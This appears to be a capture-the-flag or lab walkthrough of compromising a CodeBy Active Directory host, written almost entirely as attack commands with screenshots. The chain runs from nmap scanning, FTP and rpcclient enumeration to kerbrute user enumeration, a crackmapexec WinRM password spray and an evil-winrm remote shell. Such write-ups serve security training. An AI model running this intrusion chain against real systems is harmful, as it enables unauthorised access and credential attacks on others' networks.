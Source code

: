 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/03ab72ad-f5ce-4cba-8cfc-4cef30fce25d)
```
ping 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ee180358-9104-4781-b028-c8db297edcd5)
```
nmap -p- 192.168.2.3 -v -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cdb46432-79fe-41c5-be07-fef63c7ea190)
```
ftp 192.168.2.1
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0eb4650a-2635-4810-b63a-d1b30ae59d85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fb1cc7cd-108e-4619-a67b-b370e1c807e4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d850e7a-db8e-4091-a359-e7c1594a54ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec6b3d6b-97a9-4440-af9e-cdcbc3259206)
```
rpcclient -U login%pass -c "querydispinfo" 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/75d7b9ad-bcce-49e7-9cc5-7bb1f191534a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aeb599c2-ed92-435b-924e-a750977ca5ff)
```
 nmap -p- 192.168.2.3 -v -sC 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dfd819e-5919-4085-8e8d-9c5b9759cde8)

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/
https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.3 users.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db1c1f14-a345-4d96-a554-502f58dae018)
```
crackmapexec winrm 192.168.2.3 -d codeby.cdb -u users.txt -p 'password'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0651e750-814a-4a26-927b-91fae9393692)
```
evil-winrm -i 192.168.2.3 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c55a09ff-833f-4ad3-9fc5-c4effee3d876)

